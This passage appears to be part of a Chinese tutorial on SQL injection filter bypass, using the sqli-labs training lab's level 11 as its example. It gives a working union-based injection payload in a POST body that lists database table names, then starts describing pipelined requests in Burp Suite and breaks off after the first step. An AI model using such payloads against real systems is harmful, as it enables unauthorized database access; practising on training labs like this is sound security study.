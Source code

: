 这里需要POST形式的，以sqli-labs靶场第11关为例

普通注入：

```sql
uname=' union select(select group_concat(table_name) from information_schema.tables where table_schema=database()),2#&passwd=123&submit=Submit
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677654334793-70861d71-0dd4-4fe5-ae07-0930df9abd28.png)

使用pipline注入

1. 把 brupsuite 自动更新 Content-Length 勾去掉。

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677654392927-8c5920c4-c737-4fa3-ba56-a810f96fe37d.png)
